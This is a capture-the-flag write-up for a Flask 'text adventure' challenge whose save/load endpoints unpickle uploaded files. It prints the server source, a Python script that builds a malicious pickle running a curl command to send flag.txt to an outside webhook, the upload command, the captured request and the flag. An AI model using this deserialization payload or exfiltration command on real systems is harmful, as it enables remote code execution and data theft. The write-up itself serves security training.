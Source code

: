 # Text Adventure API
> Explore my kitchen!

## About the Challenge
We got a source code (You can download the file [here](export.zip)) and also the website. Here is the preview of the website


[Image extracted text: JSON
Raw Data
Headers
Save
Collapse AlL
Expand All
Filter JSON
current
location:
"start
description:
"You
are
in
a
kitchen.
There' 5
a
table,
a
cabinet ,
and
a
fridge .
exits
0
"table"
1:
"cabinet"
2 =
"fridge"
message:
"There
are
no
objects
to
examine
here _
Copy]


## How to Solve?
Let's analyze `server.py`!

```py
#!/usr/local/bin/python

import os
import io
import pickle
from flask import Flask, Response, request, jsonify, session
from waitress import serve

app = Flask(__name__)
app.secret_key = os.environ.get("FLASK_SECRET_KEY", "")

rooms = {
    "start": {
        "description": "You are in a kitchen. There's a table, a cabinet, and a fridge.",
        "exits": ["table", "cabinet", "fridge"]
    },
    "table": {
        "description": "You find a table with some items on it.",
        "exits": ["start"],
        "objects": {
            "note": "A handwritten note with a message.",
            "apple": "A shiny red apple."
        }
    },
    "cabinet": {
        "description": "You open the cabinet and see various utensils.",
        "exits": ["start"],
        "objects": {
            "spoon": "A metal spoon.",
            "fork": "A fork with three prongs."
        }
    },
    "fridge": {
        "description": "You open the fridge and see various food items.",
        "exits": ["start"],
        "objects": {
            "milk": "A carton of fresh milk.",
            "eggs": "A dozen eggs in a container."
        }
    }
}

@app.route('/api/move', methods=['POST'])
def move():
    data = request.get_json()
    exit_choice = data.get("exit")
    current_location = get_current_location()
    if exit_choice in rooms[current_location]["exits"]:
        session['current_location'] = exit_choice
        return jsonify({"message": f"You move to the {exit_choice}. {rooms[exit_choice]['description']}"})
    else:
        return jsonify({"message": "You can't go that way."})

@app.route('/api/examine', methods=['GET'])
def examine():
    current_location = get_current_location()
    room_description = rooms[current_location]['description']
    exits = rooms[current_location]['exits']
    
    if "objects" in rooms[current_location]:
        objects = rooms[current_location]['objects']
        return jsonify({"current_location": current_location, "description": room_description, "objects": [obj for obj in objects], "exits": exits})
    else:
        return jsonify({"current_location": current_location, "description": room_description, "message": "There are no objects to examine here.", "exits": exits})

@app.route('/api/examine/<object_name>', methods=['GET'])
def examine_object(object_name):
    current_location = get_current_location()
    if "objects" in rooms[current_location] and object_name in rooms[current_location]['objects']:
        object_description = rooms[current_location]['objects'][object_name]
        return jsonify({"object": object_name, "description": object_description})
    else:
        return jsonify({"message": f"{object_name} not found or cannot be examined here."})


def get_current_location():
    return session.get('current_location', 'start')

@app.route('/api/save', methods=['GET'])
def save_session():
    session_data = {
        'current_location': get_current_location()
        # Add other session-related data as needed
    }

    memory_stream = io.BytesIO()
    pickle.dump(session_data, memory_stream)
    response = Response(memory_stream.getvalue(), content_type='application/octet-stream')
    response.headers['Content-Disposition'] = 'attachment; filename=data.pkl'
    
    return response

@app.route('/api/load', methods=['POST'])
def load_session():
    if 'file' not in request.files:
        return jsonify({"message": "No file part"})
    file = request.files['file']
    if file and file.filename.endswith('.pkl'):
        try:
            loaded_session = pickle.load(file)
            session.update(loaded_session)
        except:
            return jsonify({"message": "Failed to load save game session."})
        return jsonify({"message": "Game session loaded."})
    else:
        return jsonify({"message": "Invalid file format. Please upload a .pkl file."})

if __name__ == '__main__':
    if os.environ.get("DEPLOY_ENV") == "production":
        serve(app, host='0.0.0.0', port=5000)
    else:
        app.run(debug=True, host="0.0.0.0")
```

Let's focus on the endpoints `/api/save` and `/api/load`. The `/api/save` endpoint will dump a pickle file, while the `/api/load` endpoint will load our pickle file. And by using this [blog](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) as a reference. We can do remote code execution on the website by uploading malicious pickle file. I've created a python script to generate malicious pickle dump file

```py
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('curl -F password=@flag.txt https://webhook.site/36fc6839-b7fd-4de3-9f47-817f155a2c74')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    with open("test.pkl", "wb") as file:
        file.write(pickled)
```

And then execute this `curl` command

```
curl -F file=@data.pkl https://text-adventure-api.chall.pwnoh.io/api/load -v
```

And then check `webhook.site` to download the flag


[Image extracted text: Request Details
Permalink
Raw content
Export as-
Headers
REQUESTS (1/500)
Newest First
Search Query
POST
https IIwebhook site/36fc6839-b7fd-4de3-9f47-817f155a2c74
connection
close
Host
18.224.1.145
Whois
Shodan
Netify
Censys
content-type
multipart/form-data; boundary=
POST | #ca033 18.224.1.145
Date
09/30/2023 9.33.42 PM (in a few seconds)
content-length
239
09/30/2023 9.33.42 PM
Size
bytes
accept
"[*
ca033d19-2a2a-4109-9e53-912be2c7d3de
user-agent
curl/7.88 .
host
webhook.site
Files
password
txt
Download (49 bytes)
Query strings
Form values
{empty)
empty)
No content
flag.]


```
bctf{y0u_f0und_7h3_py7h0n_p1ckl3_1n_7h3_k17ch3n}
```